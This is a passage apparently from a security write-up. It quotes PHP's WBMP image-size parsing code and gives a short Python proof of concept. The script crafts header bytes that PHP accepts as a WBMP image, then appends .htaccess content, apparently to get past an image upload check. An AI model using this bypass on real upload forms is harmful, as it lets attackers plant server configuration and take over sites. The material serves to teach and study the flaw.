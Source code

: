 ```c
        if (width > 2048) {
            return 0;
        }
	} while (i & 0x80);

	/* get height */
	do {
		i = php_stream_getc(stream);
		if (i < 0) {
			return 0;
		}
		height = (height << 7) | (i & 0x7f);
        /* maximum valid height for wbmp (although 127 may be a more accurate one) */
        if (height > 2048) {
            return 0;
        }
	} while (i & 0x80);

	if (!height || !width) {
		return 0;
	}

	if (!check) {
		(*result)->width = width;
		(*result)->height = height;
	}

	return IMAGE_FILETYPE_WBMP;
}
```

{% code title="Source" %}
```text
https://github.com/php/php-src/blob/e219ec144ef6682b71e135fd18654ee1bb4676b4/ext/standard/image.c
```
{% endcode %}

With a little bit math calculation, we can get it done

![](.gitbook/assets/image%20%28246%29.png)

{% code title="poc.py" %}
```text
out = chr(0x00) + chr(0x00) + chr(0x8a) + chr(0x39) + chr(0x80) + chr(0x8a) + chr(0x39) + chr(0x00)
print out
out += '''your htaccess'''
```
{% endcode %}
